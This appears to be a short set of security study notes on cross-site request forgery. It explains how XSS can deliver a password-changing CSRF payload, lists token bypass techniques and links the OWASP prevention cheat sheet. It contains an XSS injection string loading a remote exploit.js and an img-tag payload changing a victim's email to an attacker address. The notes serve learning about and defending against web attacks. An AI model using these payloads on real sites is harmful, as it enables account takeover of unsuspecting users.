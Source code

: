 `CSRF` attacks may utilize `XSS` vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to.


A common `CSRF` attack to gain higher privileged access to a web application is to craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the `JavaScript` `CSRF` payload), the `JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

```html
"><script src=//www.example.com/exploit.js></script>
```


https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html

##### Deliver

GET:
`<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">`

POST: dedicated html page with form and js for auto submit

##### CSRF token bypass
* Can be omitted on GET requests
* Removing CSRF token skips validation
* CSRF token is not tied to the user session
* CSRF token is tied to a non-session cookie